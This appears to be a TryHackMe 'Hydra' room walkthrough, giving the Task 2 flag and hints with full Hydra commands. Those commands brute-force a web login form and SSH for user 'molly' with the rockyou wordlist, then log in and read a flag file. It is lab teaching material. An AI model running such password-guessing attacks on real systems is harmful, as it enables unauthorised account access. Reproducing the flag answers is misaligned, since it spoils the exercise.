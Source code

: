 #### Link to room: https://tryhackme.com/room/hydra

#### [Task 1] Hydra Introduction
   1. No answer needed 

#### [Task 2] Using Hydra
   1. THM{2673a7dd116de68e85c48ec0b1f2612e}
> Hint: 
>
> Using a simliar format to the example given 
>
> "hydra -l  -P http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V"
>
> We can use the following:
>
> hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.94.172 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
>
> Once we have the password, we can navigate to \<GIVEN-IP-ADDRESS\> and enter the credentials to login
   2. 
> Hint: 
>
> Using a simliar format to the example given 
>
> hydra -l <username> -P <full path to pass> <ip> -t 4 ssh
>
> We can use the following:
>
> hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.94.172 -t 4 ssh 
>
> Once we get the credentials, we can connect to her accout via SSH with 
>
> ssh molly@10.10.94.172
>
> Enter the cracked password from hydra
>
> You should now be on molly's account since you can see "molly@"
>
> Type "ls" to see the files in the directory and type "cat flag2.txt" to see the content
